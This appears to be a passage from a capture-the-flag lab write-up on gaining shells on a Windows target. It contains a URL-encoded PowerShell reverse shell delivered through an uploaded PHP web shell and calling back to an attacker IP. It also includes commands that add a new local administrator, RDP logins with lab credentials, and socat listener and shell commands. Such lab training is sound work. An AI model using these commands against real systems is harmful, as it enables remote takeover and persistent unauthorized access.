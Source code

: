 http://10.10.108.96/uploads/php-reverse-shell.php?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.106.105%27%2C1234%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

```



8. The webserver is running with SYSTEM privileges. Create a new user and add it to the "administrators" group, then login over RDP or WinRM.

Step 1 - use the command to RDP 
To login using RDP:
```
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.199.85 /u:Administrator /p:'TryH4ckM3!'
```
Step 2 - use Task 12 to create Admin user (1:33:25) on cmd prompt in the Windows machine
```
net user <username> <password> /add
net localgroup administrators <username /add>
```
Step 3 - Testing - using the newly created Admin user with Step 1 command to check 
```
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.199.85 /u:ant /p:'ant'
```
![img](/assets/img/wts30.png)

---



9. Experiment using socat and netcat to obtain reverse and bind shells on the Windows Target.

Step 1 - using Task 6 command to create a listener on the Attacker machine
```
socat TCP-L:1234 -
```

Step 2 - use the netcat cheatsheet on Ncat with PowerShell

- use the following command on the TARGET Win machine to connect to the listener 
```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

1:37:23

Step 3 - Ncat
- RDP to the Windows machine
- Open PowerShell 
- Use the following command and change the ip to the Attack box 
Use PayloadsAllTheThings - Seearch for Ncat - look for PowerShell

[Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
```